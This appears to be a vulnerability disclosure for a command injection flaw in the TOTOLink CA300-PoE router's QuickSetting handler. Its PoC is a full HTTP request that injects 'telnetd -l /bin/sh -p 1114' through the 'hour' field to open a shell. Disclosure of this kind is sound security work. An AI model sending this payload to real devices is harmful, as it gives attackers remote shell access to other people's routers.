


# TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `ap.so` binary:

In `QuickSetting` function, `hour、minute` is directly passed by the attacker, so we can control the `hour、minute` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `hour` as **`telnetd -l /bin/sh -p 1114`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 397
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/status.asp
Cookie: SESSION_ID=2:1750083078:2

{"topicurl":"setting/QuickSetting","LanDhcpcSwitch":"1","AuthPassword":"admin","ModifyPassword":"","Ipaddr":"","Mask":"","Gateway":"","Dns1":"","Dns2":"","APName":"","Ssid2g":"","WlanKey2g":"admin","Channel2g":"admin","Keymode2g":"admin","TxPower2g":"admin","Action":"admin","SchdReboot":{"mode":"1","week":"0","hour":"'`telnetd -l /bin/sh -p 1114`'","minute":"pjqwudi","recHour":"0"}}
```


## Result

Get a shell!

<div  align="center"></div>
